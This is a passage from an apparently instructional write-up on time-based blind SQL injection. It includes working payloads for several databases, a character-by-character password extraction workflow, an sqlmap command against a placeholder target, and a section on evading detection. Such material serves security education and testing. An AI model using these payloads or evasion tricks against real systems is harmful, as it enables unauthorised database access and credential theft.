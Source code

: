 - **SQL Server**:  
  ```sql  
  id=1' WAITFOR DELAY '00:00:05'--  
  ```  
  A 5-second delay indicates susceptibility.  

#### **2. Character-by-Character Data Extraction**  
Once vulnerability is confirmed, attackers iteratively guess each character of a target string (e.g., a password, table name, or database version). They use conditional statements to trigger delays based on the **ASCII value** of the character at a specific position.  

**Example Workflow for Extracting a Password:**  
1. **Determine the Length of the Target String**:  
   ```sql  
   id=1' AND IF((SELECT LENGTH(password) FROM users LIMIT 1) > 5, SLEEP(5), NULL)--  
   ```  
   A delay confirms the password length exceeds 5 characters.  

2. **Extract Each Character**:  
   For the first character:  
   ```sql  
   id=1' AND IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)) > 100, SLEEP(5), NULL)--  
   ```  
   If delayed, the ASCII value of the first character is greater than 100. Attackers narrow down the exact value by incrementally adjusting the threshold (e.g., 105, 110, etc.).  

3. **Iterate for All Characters**:  
   Repeat the process for each position (e.g., `SUBSTRING(...,2,1)`, `SUBSTRING(...,3,1)`), building the string character by character.  

#### **3. Automation and Efficiency**  
Manual extraction is time-consuming, so attackers use tools like **SQLMap** to automate the process. Example command:  
```bash  
sqlmap -u "http://target.com/page?id=1" --technique=T --risk=3 --level=5 --timeout=5  
```  
- `--technique=T`: Specifies time-based SQLi.  
- `--timeout=5`: Sets the threshold for detecting delays.  

### Database-Specific Delay Functions  

| **Database**       | **Delay Function**                          | **Example Payload**                                                                 |  
|---------------------|---------------------------------------------|-------------------------------------------------------------------------------------|  
| **MySQL/MariaDB**   | `SLEEP()`, `BENCHMARK()`                    | `SLEEP(5)` or `BENCHMARK(5000000, SHA1('a'))` (CPU-intensive)                       |  
| **PostgreSQL**      | `PG_SLEEP()`                                | `PG_SLEEP(5)`                                                                       |  
| **Microsoft SQL Server** | `WAITFOR DELAY`         | `WAITFOR DELAY '00:00:05'`                                                          |  
| **Oracle**          | `DBMS_LOCK.SLEEP()`                         | `DBMS_LOCK.SLEEP(5)`                                                                |  

### Evasion and Obfuscation Techniques  

To bypass detection:  
- **Shorter Delays**: Use delays of **1 second** instead of 5 to mimic legitimate traffic.  
- **Payload Obfuscation**:  
  - Encode payloads (e.g., hexadecimal, base64):  
    ```sql  
    id=1' AND IF(ASCII(SUBSTRING(...))>100, SLEEP(5), NULL)-- → Encoded as %27%20AND%20IF(...)  
    ```  
  - Split payloads across multiple parameters:  
    ```sql  
    id=1' AND IF(ASCII(SUBSTRING(...))>100, SLEEP(5), NULL) → Split into `id=1' AND IF(...` and `>100, SLEEP(5), NULL--`  
    ```  
- **Calibration**: Measure baseline response times to account for network latency.  
